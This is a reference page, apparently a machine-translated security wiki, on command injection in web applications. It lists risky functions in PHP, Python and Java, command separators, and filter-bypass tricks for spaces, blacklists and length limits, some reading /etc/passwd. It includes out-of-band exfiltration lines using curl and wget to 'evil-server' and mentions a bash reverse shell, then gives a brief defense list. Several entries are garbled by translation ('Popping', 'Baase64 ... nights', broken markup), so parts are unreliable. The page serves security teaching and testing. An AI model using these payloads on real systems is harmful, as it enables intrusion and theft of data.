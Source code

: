 Command Injection
========================================

Introduction
----------------------------------------
Command injection usually refers to vulnerabilities caused by web applications splicing system commands on the server.

This type of vulnerability usually occurs when calling external programs to complete some functions. For example, some web management interfaces can configure hostname/IP/mask/gateway, view system information, and turn off restart functions, or some sites provide functions such as ping, nslookup, providing sending emails, converting pictures, etc., which may occur.

Common hazard functions
----------------------------------------

PHP
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- system
- exec
- passthru
- shell_exec
- Popping
- proc_open

Python
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- system
- Popping
- subprocess.call
- spawn

Java
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- java.lang.Runtime.getRuntime().exec(command)

Common injection methods
----------------------------------------
- Semicolon segmentation
-`||```&&````&`` split
- ``|`` Pipeline symbol
- ``
```%d0%a0``
- Backtick parsing
- ``$()``` Replace

No echo skills
----------------------------------------
- bash rebound shell
- DNS out-of-band data
- http out of band
- ``curl http://evil-server/$(whoami)``
- ``wget http://evil-server/$(whoami)``
- Use ``sleep`` or other logic to construct Boolean conditions when out of band

Common ways to bypass
----------------------------------------

Space bypass
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``<`` symbol ``cat<123``
- ``	`` / ``%09``
- ``${IFS}`` where {} is used to truncate, such as cat$IFS2 will be considered as IFS2 as a variable name. In addition, adding $ afterward can play a truncation role. $9 is generally used, because $9 is the holder of the ninth parameter of the current system shell process, and it is always an empty string

Blacklist bypass
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``a=l;b=s;$a$b``
- Baase64 '| Base64 -d nights
- ``/?in/?s`` => ``/bin/ls``
- Connector ``cat /etc/pass'w'd``
- Undefined initialization variable ``cat$x /etc/passwd``

Length limit bypass
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
::

>wget\
>foo.\
>com
ls -t>a
SH A

The above method is to redirect the write command through the command line, then write the command to the file by ordering ls by time, and finally execute
If you execute it directly in the Linux terminal, creating a file requires adding commands before redirecting the symbol.
Here you can use some short commands such as w,[, (use ls /usr/bin/? View)
If you do not add commands, Ctrl+D is required to end, which is equivalent to the redirection of the standard input stream
In php, when using shell_exec to execute system commands, there is no standard input stream, so you can create files directly

Common symbols
----------------------------------------

Command separator
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `` `%0` `` ``%0 d `
,,
- ``;``
- ``&`` / ``&&``

Wildcard
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``*`` 0 to infinite any character
- ``?`` A random character
- ``[ ]`` A character in brackets, e.g. ``[abcd]``
- ``[ - ]`` All characters in the encoding order
- ``[^ ]`` A character not in brackets

defense
----------------------------------------
- Disable the corresponding function when not in use
- Try not to execute external applications or commands
- Check the format of input
- Escape all shell metacharacters in command
- shell metacharacters include ``#&;`,|*?~<>^()[]{}$\``
